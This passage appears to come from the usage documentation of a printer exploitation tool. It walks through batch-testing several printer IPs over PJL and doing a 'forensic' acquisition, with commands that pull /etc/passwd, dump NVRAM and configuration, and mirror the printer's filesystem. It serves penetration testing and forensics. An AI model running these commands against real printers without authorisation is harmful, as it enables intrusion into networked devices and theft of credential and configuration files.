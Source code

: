 
## 🎓 Advanced Examples

### Example 11: Multi-Printer Assessment

**Scenario**: Test multiple printers efficiently

```bash
# Create target list
$ cat targets.txt
192.168.1.100
192.168.1.105
192.168.1.110
10.0.0.50

# Create test script
$ cat batch_test.txt
id
network
ls
download /etc/passwd
exit

# Test each printer
for ip in $(cat targets.txt); do
    echo "Testing $ip..."
    python3 printer-reaper.py -i batch_test.txt -q $ip pjl > "results_${ip}.txt" 2>&1
done

# Review results
$ grep -l "passwd" results_*.txt
results_192.168.1.100.txt
results_10.0.0.50.txt
```

---

### Example 12: Forensic Analysis

**Scenario**: Full forensic acquisition of printer

```bash
# Connect to printer
$ python3 printer-reaper.py 192.168.1.100 pjl

# Full information gathering
192.168.1.100:/> id > forensics/id_info.txt
192.168.1.100:/> network > forensics/network_info.txt
192.168.1.100:/> info config > forensics/config_info.txt
192.168.1.100:/> variables > forensics/variables.txt
192.168.1.100:/> nvram dump > forensics/nvram_dump.txt

# Full filesystem mirror
192.168.1.100:/> mirror

Mirroring filesystem...
Downloaded: 0:/.profile
Downloaded: 0:/etc/passwd
Downloaded: 0:/etc/hosts
Downloaded: 0:/etc/config.xml
...
Mirror complete!

# Backup configuration
192.168.1.100:/> backup forensics/printer_config.bak
```